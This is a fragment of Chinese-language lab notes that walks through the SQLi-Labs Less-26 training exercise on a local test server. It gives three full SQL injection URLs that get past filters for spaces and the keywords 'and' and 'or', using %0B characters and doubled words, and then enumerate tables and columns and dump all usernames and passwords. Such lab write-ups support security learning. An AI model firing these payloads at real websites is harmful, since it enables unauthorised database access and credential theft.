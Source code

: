 
#### 爆表

```
http://192.168.231.129:9001/Less-26/?id=0'%0Bunion%0Bselect%0B1,group_concat(table_name),3%0Bfrom%0Binfoorrmation_schema.tables%0Bwhere%0Btable_schema=database()%0Baandnd%0B'1'='1
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230607150250397.png" alt="image-20230607150250397" style="zoom: 33%;" />

#### 爆字段

```
http://192.168.231.129:9001/Less-26/?id=0'%0Bunion%0Bselect%0B1,group_concat(column_name),3%0Bfrom%0Binfoorrmation_schema.columns%0Bwhere%0Btable_schema=database()%0Banandd%0Btable_name='users'%0Baandnd%0B'1'='1
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230607150349267.png" alt="image-20230607150349267" style="zoom: 33%;" />

#### 拖库

```
http://192.168.231.129:9001/Less-26/?id=0'%0Bunion%0Bselect%0B1,group_concat(username,':',passwoorrd),3%0Bfrom%0Busers%0Bwhere%0B'1'='1
```
